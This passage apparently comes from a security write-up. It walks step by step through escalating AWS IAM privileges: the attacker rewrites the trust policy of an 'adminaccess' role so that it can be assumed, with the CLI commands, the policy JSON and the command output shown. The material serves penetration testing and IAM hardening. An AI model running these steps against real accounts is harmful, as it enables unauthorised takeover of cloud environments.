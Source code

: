 First, the attacker assumes the lower privileged role in the target AWS account:

```bash
➜ aws sts assume-role --role-arn arn:aws:iam::[REDACTED]:role/privesc14 --role-session-name privesc14 --profile awstwo
```

```json
{
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAS4WERQEFADXSRZ6OX:privesc14",
        "Arn": "arn:aws:sts::[REDACTED]:assumed-role/privesc14/privesc14"
    },
    "Credentials": {
        "SecretAccessKey": "[REDACTED]",
        "SessionToken": "[REDACTED]",
        "Expiration": "2019-09-05T22:24:25Z",
        "AccessKeyId": "[REDACTED]"
    }
}
```

After adding the session credentials to a new AWS profile (named assumedrole in the example below), the attacker escalates privileges by updating the adminaccess role so that they can assume it. The AssumeRole policy that will be used is as follows:

`assumerolepolicy.json`

```json
{
    "Version": "2012-10-17",
    "Statement": [
    {
        "Effect": "Allow",
        "Principal": {
            "AWS": "arn:aws:iam::[REDACTED]:user/attacker"
        },
    "Action": "sts:AssumeRole",
    "Condition": {}
   }]
}
```

The attacker issues the command to add this trust policy to the adminaccess role:

```bash
➜ aws iam update-assume-role-policy --role-name adminaccess --policy-document file://assumerolepolicy.json --profile assumedrole
```

The attacker can now assume the adminaccess role in the target environment:

```bash
➜ aws sts assume-role --role-arn arn:aws:iam::199054426378:role/adminaccess --role-session-name privesc14admin --profile awstwo
```

```json
{
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAJFLD6LA5KYRSHSDTY:privesc14admin",
        "Arn": "arn:aws:sts::[REDACTED]:assumed-role/adminaccess/privesc14admin"
    },
    "Credentials": {
        "SecretAccessKey": "[REDACTED]",
        "SessionToken": "[REDACTED]",
        "Expiration": "2019-09-05T22:44:39Z",
        "AccessKeyId": "[REDACTED]"
    }
}
```
